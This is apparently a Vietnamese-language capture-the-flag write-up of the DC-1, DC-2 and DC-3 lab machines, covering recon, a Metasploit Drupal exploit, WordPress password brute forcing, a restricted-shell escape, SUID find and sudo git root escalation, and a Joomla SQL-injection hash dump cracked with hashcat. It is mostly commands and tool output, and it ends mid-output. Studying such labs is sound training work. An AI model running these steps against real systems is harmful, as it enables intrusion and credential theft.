# DC 1

```bash
arp-scan -l
```



```bash
nmap -p- -sV 172.16.1.129
```





```bash
gobuster dir -u http://172.16.1.129 -w /usr/share/wordlists/dirb/common.txt
```



```bash
nikto -h http://172.16.1.129
```

```bash
searchsploit drupal
```



```bash
msfconsole
```



```bash
msf6 > search drupal
```



```
set rhosts 172.16.1.129
run
```



```bash
ls
cat flag1.txt
```



```bash
cd /home
ls
```



```bash
cd flag4
ls
cat flag4.txt
```



```bash
cat /etc/passwd
```



```bash
shell
/bin/bash -i
# hoặc 
# python -c 'import pty; pty.spawn("/bin/sh")'
# /bin/bash -i
```

Tham khảo [shell](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell).



```bash
ls
sudo -l
```



Không có sudo.

```bash
cd /tmp
ls
ls -all
```



Tiếp theo chúng ta sử dụng `LinEnum` để kiểm kê toàn bộ máy Linux sau khi đã có foothold, nhằm tìm cách privilege escalation. Tham khảo tại [đây](https://github.com/rebootuser/LinEnum)

Mở một tab khác của kali:

```bash
cd /home/kali/Downloads
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
python -m http.server
```



Quay lại meterprefer:

```bash
cd /tmp
wget http://172.16.1.128:8000/LinEnum.sh
```



```bash
ls -l
```



```bash
chmod +x 
ls -l
```



```bash
./LinEnum.sh
```



Sau Khi quét xong ta thấy có nhiều thư mục và các thông tin hữu ích như vị trí và nội dung có thể truy cập hay là các thư mục mail:



Trong rất nhiều thông tin ta tìm được một thông tin hữu ích như sau:



`find` bình thường là lệnh dùng để tìm file trên Linux. Nhưng ở đây điều đáng chú ý không phải là tên file, mà là quyền của nó.

```txt
- rw s r-x r-x
| |   |   |
| |   |   └── quyền của others
| |   └────── quyền của group
| └────────── quyền của owner
└──────────── loại file
```

`rwx` = owner có read/write/execute.

`rws` = owner có read/write/execute và có SUID.

`SUID` = Set User ID, tức là khi một file thực thi có bit SUID bật, lúc user thường chạy file đó, tiến trình được tạo ra sẽ chạy với effective UID của owner file, không phải UID của người chạy.

Trong TH này file thuộc `root` -> file có `SUID` -> nên khi ai đó chạy `/usr/bin/find`, tiến trình find có thể chạy với quyền hiệu lực của `root`.

Tham khảo câu lệnh Linux tại [đây](https://gtfobins.org/).

Như vậy thì find có quyền root nên ta sẽ thực hiện câu lệnh mở shell và lúc này shell sẽ có quyền root.

```bash
whoami
find . -exec /bin/sh \; -quit
whoami
```



```bash
cd /root
cat thefinalflag.txt
```



# DC-2

```bash
sudo nmap -T4 -sS -e eth0 172.16.1.0/24
```



```bash
nmap -p- -sV 172.16.1.130
```



Ở đây ta thấy có mở dịch vụ ssh trên port 7744, khá lạ vì bình thường là port 22.

Ta truy cập vào website: `172.16.1.130`.



```bash
wget 172.16.1.130
```



Như vậy tức là đang bị lỗi phân giải tên miền DC-2 sang địa chỉ IP tương ứng.

```bash
sudo nano /etc/hosts
# thêm 172.16.1.130 dc-2
```



```bash
wget 172.16.1.130
```



Như vậy chúng ta bây giờ đã có thể kết nối tới trang web.



Từ thông tin trên hình ta xác định được đây là một giao diện `WordPress 4.7.10` mặc định và ta thấy có một mục `Flag`.



Như vậy ta có gợi ý đầu tiên khi thực hiện tiếp lab này. Đây là một dấu hiện cho việc chúng ta cần phải thực hiện một cuộc tấn công mật khẩu. Chúng ta cần một danh sách tên người dùng và mật khẩu để thực hiện cuộc tấn công này.

Thêm `wp-admin` vào cuối URL sẽ đưa chúng ta đến với trang đăng nhập quản trị.



Khi ta nhấn vào `Lost your password?` chúng ta sẽ được đưa đến một trang để chúng ta lấy lại mật khẩu bằng việc gửi qua email của tài khoản, nếu tài khoản tồn tại thì sẽ có thông báo gửi, còn không thì thông báo lỗi như hình bền dưới.





Nhưng việc thử như này sẽ mất khá nhiều thời gian nên ta sẽ thử theo cách khác bằng việc sử dụng công cụ `wpscan`.

```bash
wpscan --url http://dc-2 -evt evp -eu
```

- `--url http://dc-2`: chỉ định mục tiêu cần quét.

- `-evt evp`: `-e` = enumerate; `vt` = vulnerable themes; `vp` = vulnerable plugins -> Kiểm tra plugin/theme có lỗ hổng.

- `-eu`: --enumerate u -> Liệt kê, dò tìm các user của WordPress.

```txt
┌──(root㉿kali)-[/home/kali]
└─# wpscan --url http://dc-2 -evt evp -eu
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [172.16.1.130]
[+] Started: Sun Apr  5 01:03:06 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 4.0
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Apr  5 01:03:10 2026
[+] Requests Done: 58
[+] Cached Requests: 6
[+] Data Sent: 14.614 KB
[+] Data Received: 514.805 KB
[+] Memory used: 185.809 MB
[+] Elapsed time: 00:00:03
```



Sau khi quét xong ta thấy được 3 user là: `admin`, `tom` và `jerry`.

`Flag` ở trên gợi ý cho chúng ta sử dụng `cewl`. Cewl là một chương trình thu thập thông tin từ một URL và tạo các danh sách từ tùy chỉnh dựa trên những gì nó tìm thấy.

```bash
cewl http://dc-2
```



Như vậy `cewl` sẽ cung cấp cho chúng ta một danh sách dài, ta sẽ lưu lại các kết quả này cho cuộc tấn công mật khẩu tiếp theo.

```bash
cewl http://dc-2 > /usr/share/wordlists/cewlpasswd.txt
```

Bây giờ ta sẽ thực hiện cuộc tấn công mật khẩu sử dựng wpscan với các tham số danh sách mật khẩu ta vừa lưu lại và danh sách tên người dùng chúng ta quét được.

```bash
wpscan --url http://dc-2 --passwords /usr/share/wordlists/cewlpasswd.txt --usernames tom,jerry,admin
```

Quá trình này sẽ mất một số thời gian nhất định, nhưng chúng ta thu được kết quả như sau:



```txt
| Username: jerry, Password: adipiscing
| Username: tom, Password: parturient
```

Bây giờ ta thử đăng nhập vào cả 2 user trên. Trong use `tom` không có gì nhưng mà ở user `jerry` ta có thấy `flag2`.





`Flag2` gợi ý cho chúng ta nên tìm cách xâm nhập khác nếu không thể khai thác lỗ hổng `WordPress`. Vậy bây giờ ta sẽ thử sử dụng `SSH`.



Ta thấy `jerry` không ssh được, ta chuyển sang `tom`.

```bash
ssh -p 7744 tom@172.16.1.130
```



Ta thử tìm xung quanh thì thấy có `flag3.txt` nhưng mà chúng ta không thể đọc được nội dung của `flag3.txt`. Có vẻ như `Tom` ở trong một vỏ bọc bị hạn chế.



Chúng ta ngồi tìm hiểu hệ thống một chúng

```bash
ls
ls /
ls /home
```



Như vậy ở đây chúng ta có `tom` và `jerry`.

```bash
ls /home/tom
ls /home/jerry
```



Như vậy chúng ta sẽ tìm hiểu về `tom` trước.

```bash
ls /home/tom
ls /home/tom/usr
ls /home/tom/usr/bin
```



Như vậy chúng ta có tận 4 câu lệnh sử dụng được ở trên user `tom` là: `less`, `ls`, `scp`, `vi`.

Như vậy ta sử dụng `vi` để đọc được file `flag3.txt`.

```bash
vi flag3.txt
```



Theo như gợi ý ở đây ngay bây giờ thì chúng ta cần phải chuyển người dùng sang `jerry`. Nhưng trước tiên chúng ta phải thoát khỏi shell bị hạn chế này.

```bash
less /etc/passwd
```

```bash
vi
```

Khi bạn gõ `vi` thì sẽ có dấu `:` ở dưới, nó hoạt động gần giống như lệnh `more` nơi bạn có thể nhập các lệnh `bash`. Ta sẽ sử dụng lệnh này để thiết lập `shell` thành `/bin/bash`

```bash
Ctrl ;
set shell=/bin/bash
Enter
Ctrl ;
!/bin/sh
Enter
```



Như vậy bây giờ chúng ta đang ở trong một shell khác. Ta thử gọi cho jerry nhưng mà không được:

```bash
su jerry
```



có thể su có nhưng mà nó không nằm trong đường dẫn PATH nên không tìm thấy được, chúng ta bây giờ hãy xem thử giá trị cua `PATH`.

```bash
echo $PATH
```



```bash
export PATH=/bin:/usr/bin:$PATH
```

Sau khi export xong thì ta đã sử dụng được lệnh su để sang user `jerry`.



Như vậy thông qua đây chúng ta biết rằng chúng ta đang ở trong hệ thống của jerry, mật khẩu đã đúng nhưng có vẻ như jerry không có quyền truy cập SSH bị hạn chế. Nhưng mà chúng ta cứ đọc file flag4.txt ở jerry trước đã.

```bash
cd /home/jerry
cat flag4.txt
```



Để xem jerry có thể sử dụng những lệnh nào có quyền `root`, chúng ta sử dung `sudo -l`.

```bash
sudo -l
```



Như vậy chúng ta thấy ở đây thì jerry có lệnh git quyền root mà không cần mật khẩu, khớp với sự gợi ý từ `flag4.txt`.

Bây giờ ta sẽ xem các tùy chọn của lệnh `git`, ta sẽ thêm sudo vào để chạy dưới quyền root, do không cần mật khẩu nên chúng ta có thể khai thác.

```bash
sudo git --help
```



Ta thấy lệnh `git` cũng có phân trang giống như lệnh `vi`, bây giờ ta chi cần sử dụng tùy chọn phân sang rùi thực hiện gọi shell trên đó như lệnh vi ta đã làm trước đó.

```bash
sudo git -p --help
```



Như vậy chúng có hoạt động và bây giờ ta chỉ cần xem chúng ta là ai bằng lệnh `whoami`:



# DC-3

Tìm địa chỉ IP máy.

```bash
sudo nmap -T4 -sS -e eth0 172.16.1.0/24
```

Kết quả:

```txt
┌──(root㉿kali)-[/home/kali]
└─# sudo nmap -T4 -sS -e eth0 172.16.1.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-15 14:20 EDT
Nmap scan report for 172.16.1.1
Host is up (0.010s latency).
All 1000 scanned ports on 172.16.1.1 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 00:50:56:C0:00:08 (VMware)

Nmap scan report for 172.16.1.2
Host is up (0.00010s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
53/tcp open  domain
MAC Address: 00:50:56:F7:5F:EE (VMware)

Nmap scan report for 172.16.1.130
Host is up (0.00042s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:52:CF:61 (VMware)

Nmap scan report for 172.16.1.254
Host is up (0.000098s latency).
All 1000 scanned ports on 172.16.1.254 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 00:50:56:ED:63:B5 (VMware)

Nmap done: 256 IP addresses (4 hosts up) scanned in 30.83 seconds
```

Như vậy ở đây ta thấy port 80 mở và biết được địa chỉ của máy là `172.16.1.130`.



Khi ta sử dụng tiện ích `Wappalyzer` thì ta biết được website mục tiêu đang dùng những công nghệ gì. Từ ảnh ta có thể xác định được:

- CMS: Joomla → Website này nhiều khả năng chạy trên Joomla.

- Ngôn ngữ backend: PHP → Phần xử lý phía server dùng PHP.

- Hệ điều hành server: Ubuntu → Máy chủ web có vẻ đang chạy Ubuntu.

- Web server: Apache HTTP Server 2.4.18 → Dịch vụ web là Apache, phiên bản 2.4.18.

- Thư viện JavaScript: jQuery 1.12.4 và jQuery Migrate 1.4.1

- UI framework: Bootstrap → Giao diện web dùng Bootstrap.

- Font scripts: Google Font API → Web tải font từ Google Fonts.

- Misc: RSS → Có hỗ trợ RSS feed.

Tiếp theo ta sẽ sử dụng `nikto` để quét các lỗ hổng:

```bash
nikto -host 172.16.1.130
```

Kết quả:

```txt
┌──(root㉿kali)-[/home/kali/joomscan]
└─# nikto -host 172.16.1.130
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.16.1.130
+ Target Hostname:    172.16.1.130
+ Target Port:        80
+ Start Time:         2026-03-15 14:48:20 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
+ /index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc: EW FileManager for PostNuke allows arbitrary file retrieval. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2047
+ /administrator/: This might be interesting.
+ /bin/: This might be interesting.
+ /includes/: This might be interesting.
+ /tmp/: This might be interesting.
+ /LICENSE.txt: License file found may identify site software.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /htaccess.txt: Default Joomla! htaccess.txt file found. This should be removed or renamed.
+ /administrator/index.php: Admin login page/section found.
+ 8910 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2026-03-15 14:48:47 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Vì chúng ta biết rằng CMS được sử dụng Joomla nên chúng ta sẽ thử tìm ở trên trang github của OWASP để chúng ta sẽ tải xuống `joomscan`:

```bash
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl -url 172.16.1.130
```

```txt
    ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://172.16.1.130 ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing :
http://172.16.1.130/administrator/components
http://172.16.1.130/administrator/modules
http://172.16.1.130/administrator/templates
http://172.16.1.130/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://172.16.1.130/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/172.16.1.130/
```

Thông qua đây chúng ta biết được rằng phiên bản Joomla được cài đặt là phiên bản `3.7.0`.

Ta sẽ thực hiện quét lại một lần nữa, nhưng lần nay với tùy chọn liệt kê các thành phần 

```bash
perl joomscan.pl -url 172.16.1.130 -ec
```

```txt

    ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://172.16.1.130 ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing :
http://172.16.1.130/administrator/components
http://172.16.1.130/administrator/modules
http://172.16.1.130/administrator/templates
http://172.16.1.130/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://172.16.1.130/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found

[+] Enumeration component (com_ajax)
[++] Name: com_ajax
Location : http://172.16.1.130/components/com_ajax/
Directory listing is enabled : http://172.16.1.130/components/com_ajax/


[+] Enumeration component (com_banners)
[++] Name: com_banners
Location : http://172.16.1.130/components/com_banners/
Directory listing is enabled : http://172.16.1.130/components/com_banners/


[+] Enumeration component (com_biblestudy)
[++] Name: com_biblestudy
Location : http://172.16.1.130/components/com_biblestudy/
Directory listing is enabled : http://172.16.1.130/components/com_biblestudy/
[!] We found the component "com_biblestudy", but since the component version was not available we cannot ensure that it's vulnerable, please test it yourself.
Title : Joomla Component com_biblestudy 1.5.0 (id) SQL Injection Exploit
Reference : https://www.exploit-db.com/exploits/5710
[!] We found the component "com_biblestudy", but since the component version was not available we cannot ensure that it's vulnerable, please test it yourself.
Reference : http://www.cvedetails.com/cve/CVE-2018-7317
Reference : https://www.exploit-db.com/exploits/44159
Fixed in : 9.1.6
[!] We found the component "com_biblestudy", but since the component version was not available we cannot ensure that it's vulnerable, please test it yourself.
Reference : http://www.cvedetails.com/cve/CVE-2018-7316
Reference : https://www.exploit-db.com/exploits/44164
Fixed in : 9.1.7


[+] Enumeration component (com_contact)
[++] Name: com_contact
Location : http://172.16.1.130/components/com_contact/
Directory listing is enabled : http://172.16.1.130/components/com_contact/


[+] Enumeration component (com_content)
[++] Name: com_content
Location : http://172.16.1.130/components/com_content/
Directory listing is enabled : http://172.16.1.130/components/com_content/


[+] Enumeration component (com_contenthistory)
[++] Name: com_contenthistory
Location : http://172.16.1.130/components/com_contenthistory/
Directory listing is enabled : http://172.16.1.130/components/com_contenthistory/


[+] Enumeration component (com_fields)
[++] Name: com_fields
Location : http://172.16.1.130/components/com_fields/
Directory listing is enabled : http://172.16.1.130/components/com_fields/


[+] Enumeration component (com_finder)
[++] Name: com_finder
Location : http://172.16.1.130/components/com_finder/
Directory listing is enabled : http://172.16.1.130/components/com_finder/


[+] Enumeration component (com_mailto)
[++] Name: com_mailto
Location : http://172.16.1.130/components/com_mailto/
Directory listing is enabled : http://172.16.1.130/components/com_mailto/
Installed version : 3.1


[+] Enumeration component (com_media)
[++] Name: com_media
Location : http://172.16.1.130/components/com_media/
Directory listing is enabled : http://172.16.1.130/components/com_media/


[+] Enumeration component (com_newsfeeds)
[++] Name: com_newsfeeds
Location : http://172.16.1.130/components/com_newsfeeds/
Directory listing is enabled : http://172.16.1.130/components/com_newsfeeds/


[+] Enumeration component (com_search)
[++] Name: com_search
Location : http://172.16.1.130/components/com_search/
Directory listing is enabled : http://172.16.1.130/components/com_search/


[+] Enumeration component (com_users)
[++] Name: com_users
Location : http://172.16.1.130/components/com_users/
Directory listing is enabled : http://172.16.1.130/components/com_users/


[+] Enumeration component (com_wrapper)
[++] Name: com_wrapper
Location : http://172.16.1.130/components/com_wrapper/
Directory listing is enabled : http://172.16.1.130/components/com_wrapper/
Installed version : 3.1


Your Report : reports/172.16.1.130/
```

Bây giờ chúng ta thử search các lỗ hổng của `joomla`:

```bash
searchsploit joomla
```

Kết quả tại [đây](FILE/2/tmp1.txt). Quá dài tui không muốn đọc luôn.

Ta sẽ sử dụng msf console sau đó tìm các lỗ hổng tiềm năng:

```bash
msfconsole
search joomla
```

```txt
msf6 > search joomla

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/joomla_gallerywd_sqli_scanner      2015-03-30       normal     No     Gallery WD for Joomla! Unauthenticated SQL Injection Scanner
   1   exploit/unix/webapp/joomla_tinybrowser                    2009-07-22       excellent  Yes    Joomla 1.5.12 TinyBrowser File Upload Code Execution
   2   auxiliary/scanner/http/joomla_api_improper_access_checks  2023-02-01       normal     Yes    Joomla API Improper Access Checks
   3   auxiliary/admin/http/joomla_registration_privesc          2016-10-25       normal     Yes    Joomla Account Creation and Privilege Escalation
   4   exploit/unix/webapp/joomla_akeeba_unserialize             2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   5   auxiliary/scanner/http/joomla_bruteforce_login            .                normal     No     Joomla Bruteforce Login Utility
   6   exploit/unix/webapp/joomla_comfields_sqli_rce             2017-05-17       excellent  Yes    Joomla Component Fields SQLi Remote Code Execution
   7   exploit/unix/webapp/joomla_comjce_imgmanager              2012-08-02       excellent  Yes    Joomla Component JCE File Upload Remote Code Execution
   8   exploit/unix/webapp/joomla_contenthistory_sqli_rce        2015-10-23       excellent  Yes    Joomla Content History SQLi Remote Code Execution
   9   exploit/multi/http/joomla_http_header_rce                 2015-12-14       excellent  Yes    Joomla HTTP Header Unauthenticated Remote Code Execution
   10  exploit/unix/webapp/joomla_media_upload_exec              2013-08-01       excellent  Yes    Joomla Media Manager File Upload Vulnerability
   11  auxiliary/scanner/http/joomla_pages                       .                normal     No     Joomla Page Scanner
   12  auxiliary/scanner/http/joomla_plugins                     .                normal     No     Joomla Plugins Scanner
   13  auxiliary/gather/joomla_com_realestatemanager_sqli        2015-10-22       normal     Yes    Joomla Real Estate Manager Component Error-Based SQL Injection
   14  auxiliary/scanner/http/joomla_version                     .                normal     No     Joomla Version Scanner
   15  auxiliary/gather/joomla_contenthistory_sqli               2015-10-22       normal     Yes    Joomla com_contenthistory Error-Based SQL Injection
   16  auxiliary/gather/joomla_weblinks_sqli                     2014-03-02       normal     Yes    Joomla weblinks-categories Unauthenticated SQL Injection Arbitrary File Read
   17  auxiliary/scanner/http/joomla_ecommercewd_sqli_scanner    2015-03-20       normal     No     Web-Dorado ECommerce WD for Joomla! search_category_id SQL Injection Scanner


Interact with a module by name or index. For example info 17, use 17 or use auxiliary/scanner/http/joomla_ecommercewd_sqli_scanner
```

Và như các bạn thấy thì ở ID thứ 6 có dành cho việc thực thi mã lệnh từ xa. Ta sẽ thử search trên mạng và thấy có kết quả (....). Việc chạy lỗ hổng này thực sự được tiết lộ là một số thông tin rất hữu ích.

```bash
git clone https://github.com/stefanlucas/Exploit-Joomla.git
cd Exploit-Joomla
python joomblah.py http://172.16.1.130
```

```txt
┌──(root㉿kali)-[/home/kali/dc-3/Exploit-Joomla]
└─# python joomblah.py http://172.16.1.130
/home/kali/dc-3/Exploit-Joomla/joomblah.py:162: SyntaxWarning: invalid escape sequence '\ '
  |   |   '   _    \     '   _    \                            .---.

    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: d8uea_users
  -  Found table: users
  -  Extracting users from d8uea_users
 [$] Found user ['629', 'admin', 'admin', 'freddy@norealaddress.net', '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu', '', '']
  -  Extracting sessions from d8uea_session
  -  Extracting users from users
  -  Extracting sessions from session
```

Vì vậy ở dòng này ta phát ra được mã băm ở dòng này là `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`. Nhờ chatGPT ta biết được đây là mã hash `bcrypt`.

Ta sẽ thực hiện dictionary trên file `rockyou.txt`.

```txt
D:\Programs\hashcat\hashcat-7.1.2\hashcat-7.1.2>hashcat.exe -m 3200 _hash.txt rockyou.txt
hashcat (v7.1.2) starting

Failed to initialize the AMD main driver HIP runtime library. Please install the AMD HIP SDK.

Failed to initialize AMD HIP RTC library. Please install the AMD HIP SDK.

ADL2_Overdrive_Caps(): -8

ADL2_Overdrive_Caps(): -8

ADL2_Overdrive_Caps(): -8

ADL2_Overdrive_Caps(): -8

ADL2_Overdrive_Caps(): -8

OpenCL API (OpenCL 2.1 AMD-APP (3652.0)) - Platform #1 [Advanced Micro Devices, Inc.]
=====================================================================================
* Device #01: AMD Radeon(TM) Graphics, 6261/12523 MB (5104 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 538 MB (16078 MB free)

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 0 secs

$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu:snoopy

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0...lfB1Zu
Time.Started.....: Mon Mar 16 02:28:02 2026 (1 sec)
Time.Estimated...: Mon Mar 16 02:28:03 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-72 bytes)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:      171 H/s (16.73ms) @ Accel:1 Loops:32 Thr:16 Vec:1
